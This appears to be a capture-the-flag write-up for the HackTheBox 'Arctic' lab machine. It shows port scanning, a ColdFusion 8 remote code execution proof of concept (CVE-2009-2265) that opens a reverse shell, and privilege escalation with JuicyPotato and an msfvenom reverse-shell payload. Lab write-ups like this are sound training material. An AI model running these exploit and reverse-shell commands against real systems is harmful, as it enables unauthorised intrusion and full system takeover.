


# Arctic - Easy

Target IP: **10.129.80.226**

## User Flag

Initial scan: ```sudo nmap -sC -sV -p- 10.129.80.226 -v```

Output shows port 135 and 49154 open for RPC, and a JRun web server running on port 8500. This is a legacy Java application.

```
PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  http    JRun Web Server
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Navigating to port 8500 shows us that directory listing is enabled.



Diving a bit deeper to ```/CFIDE/administrator``` leads us to a log in page for Adobe ColdFusion 8 Administrator.



A search online reveals that this is vulnerable to CVE-2009-2265, an unauthenticated RCE vulnerability. I found a [PoC](https://github.com/0xDTC/Adobe-ColdFusion-8-RCE-CVE-2009-2265) here that we can try.

After running the exploit, we get a shell.

```
┌──(y㉿peacebreaker)-[~/Labs/HackTheBox/Arctic]
└─$ ./CVE-2009-2265 -l 10.10.16.68 -p 4444 -r 10.129.80.226 -q 8500
┌──(y㉿peacebreaker)-[~]
└─$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.16.68] from (UNKNOWN) [10.129.80.226] 49183
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>whoami
whoami
arctic\tolis
```

We can proceed to get the user flag from here.

## Root Flag

The ```tolis``` user has ```SeImpersonatePrivilege``` enabled.

```
C:\Users\tolis>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

Let's get JuicyPotato over to the remote machine. We'll also generate a reverse shell payload with msfvenom and transfer it. JuicyPotato should be able to execute and give us a shell back.

```
┌──(y㉿peacebreaker)-[~]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.68 LPORT=4444 -f exe -o reverse.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7680 bytes
Saved as: reverse.exe
```

We transfer files over to the machine with ```certutil```.

After running JuicyPotato, we get a shell back as ```NT AUTHORITY\SYSTEM```.

```
C:\Users\Public\Documents>JP.exe -l 44444 -p "C:\Users\Public\Documents\reverse.exe" -t * -c {4991d34b-80a1-4291-83b6-3328366b9097}
JP.exe -l 44444 -p "C:\Users\Public\Documents\reverse.exe" -t * -c {4991d34b-80a1-4291-83b6-3328366b9097}
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 44444
....
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```

```
┌──(y㉿peacebreaker)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.16.68] from (UNKNOWN) [10.129.80.226] 49672
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

We can proceed to get the root flag from here.

Nice pwn!

## Contact

Email: <johnyang4406@gmail.com>, <john_s_yang@brown.edu>

LinkedIn: <https://www.linkedin.com/in/john-yang-747726292/>

HackTheBox: <https://profile.hackthebox.com/profile/019c423f-9b9b-708f-8b31-55983b89dddd?utm_medium=copy_url/>
